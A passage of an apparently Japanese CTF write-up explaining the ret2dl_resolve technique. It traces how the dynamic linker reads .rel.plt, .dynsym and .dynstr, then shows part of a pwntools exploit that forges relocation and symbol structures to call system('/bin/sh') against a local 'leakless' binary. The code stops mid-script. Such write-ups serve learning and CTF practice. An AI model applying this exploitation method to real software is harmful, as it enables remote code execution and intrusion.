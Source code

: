```c
```
実際には次のような値が入っています。
```
gdb-peda$ x/2wx 0x08048354 + 0x0
0x8048354: 0x0804a00c 0x00000107
```
0x8048354が.rel.pltのアドレスで、0x0はpushされた値です。
`reloc->r_info`は0x107となっていますね。
さらにこの値から.dynsymセクションが参照されます。
```c
const ElfW(Sym) *sym =
  &symtab[ELFW(R_SYM)(reloc->r_info)];
```
ここで`ELFW(R_SYM)(reloc->r_info)`は要するに`reloc->r_info >> 8`という意味ですが、0x107の7はSanity Checkを通過するために必要となるので注意してください。
```c
assert (
  ELFW(R_TYPE)(reloc->r_info)==ELF_MACHINE_JMP_SLOT
);
```
さらに.dynstrセクションから`st_name`の文字列が参照されます。
```c
result = _dl_lookup_symbol_x(
  strtab + sym->st_name, l, &sym, l→l_scope,
  version, ELF_RTYPE_CLASS_PLT, flags, NULL
);
```
そして解決されたアドレスは`reloc->r_offset`のアドレスに書き込まれます。

したがって、ROP Stagerで各種構造体をメモリ上に作り、結果を適当な関数のGOTに書き込んで、最後にその関数のPLTを呼び出してやれば任意のlibc関数が呼び出せます。

なかなか大変なので昔作ったexploitコードを載せておきます。
```python
from pwn import *

elf = ELF("./leakless")
sock = remote("localhost", 2000)
_ = raw_input()

addr_plt = 0x080483b0
rop_pop3 = 0x08048699
rop_pop_ebp = 0x0804869b
rop_leave = 0x080484a5

addr_relplt = 0x08048354
addr_dynsym = 0x080481cc
addr_dynstr = 0x0804828c
addr_bss    = 0x0804a030

fname = "system" + "\x00"
farg  = "/bin/sh" + "\x00"
base_stage = addr_bss + 0x800
addr_reloc = addr_bss + 0xa00
addr_sym = addr_bss + 0xa80 | (addr_dynsym & 0xF)
addr_str = addr_bss
addr_arg = addr_str + len(fname)

""" Elf32_Rel """
reloc = p32(elf.got['exit'])
reloc += p32((((addr_sym - addr_dynsym) / 0x10) << 8) | 7)
""" Elf32_Sym """
sym = p32(addr_str - addr_dynstr)
sym += p32(0)
sym += p32(0)
sym += p32(0x12)

```